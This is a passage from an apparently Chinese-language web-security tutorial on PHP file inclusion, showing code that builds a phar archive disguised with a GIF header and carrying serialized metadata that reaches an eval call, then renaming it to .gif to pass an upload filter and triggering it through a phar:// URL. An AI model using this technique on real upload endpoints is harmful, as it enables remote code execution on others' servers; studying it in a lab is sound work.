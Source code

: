 ```php
   {
       eval($this -> output);
   }
}
$phar = new Phar('eval.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>'); // 指定文件头
$phar -> addFromString('test.txt','test');
$object = new AnyClass();
$object -> output= 'phpinfo();'; // 此处就是前面反序列输出的位置，也就是可以控制
$phar -> setMetadata($object);
$phar -> stopBuffering();
?>
```
攻击过程
访问我们的html并上传eval.phar文件可以发现禁止了

![image-20240130134411220](08.文件包含漏洞/image-20240130134411220.png)

这个时候我们可以修改后缀名phar为gif

![image-20240130134413927](08.文件包含漏洞/image-20240130134413927.png)

![image-20240130134418472](08.文件包含漏洞/image-20240130134418472.png)

可以看到文件上传成功了，那我们可以用file_un.php文件来执行paylaod

```html
/file_un.php?filename=phar://upload_file/eval.gif
```
